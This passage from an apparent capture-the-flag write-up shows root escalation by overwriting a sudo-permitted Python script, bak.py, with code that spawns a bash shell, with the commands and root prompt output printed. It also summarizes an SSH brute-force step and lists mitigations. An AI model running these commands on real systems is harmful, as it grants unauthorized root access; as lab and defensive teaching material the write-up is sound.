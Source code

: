 ### Step 4 – Privilege Escalation
- Script overwrite and execution:  
  ```
  rm bak.py
  echo  'import os; os.execl("/bin/bash", "bash", "-i")' > bak.py
  sudo python /home/meliodas/bak.py
  ```
  **Output Explanation:**  
  rm deletes original (prompt: y). echo writes malicious code to spawn bash. sudo runs it elevated, switching to root@ prompt.  
  Post-escalation:  
  ```
  root@ubuntu:~# ls
  bak.py  user.txt
  root@ubuntu:~# cd /root
  root@ubuntu:/root# ls
  root.txt
  root@ubuntu:/root# cat root.txt
  [REDACTED]
  ```
  Navigation and cat prove root access and flag capture.

---

## 3. Proof of Concept (PoC)

- **SSH Brute-Force PoC:**  
  - Hydra command as above; succeeds due to common password [REDACTED].
- **SUDO Script Injection PoC:**  
  - Overwrite bak.py with shell code and sudo execute. Demonstrates how user-writable paths in sudoers lead to escalation.

---

## 4. Privilege Escalation

- **Technique:** Abuse of SUDO NOPASSWD on user-controlled script path, injecting code to spawn root shell.
- **Details:** Wildcard and writability allow arbitrary execution.

---

## 5. Mitigation Recommendations

- **Credential Security:** Enforce strong, unique passwords; use SSH keys and fail2ban.
- **Information Disclosure:** Remove hints from web files.
- **SUDO Hardening:** No wildcards/NOPASSWD; root-own scripts.
- **File Permissions:** Audit writable files in privileged paths.
- **System Hardening:** Update OS; monitor logs.

---
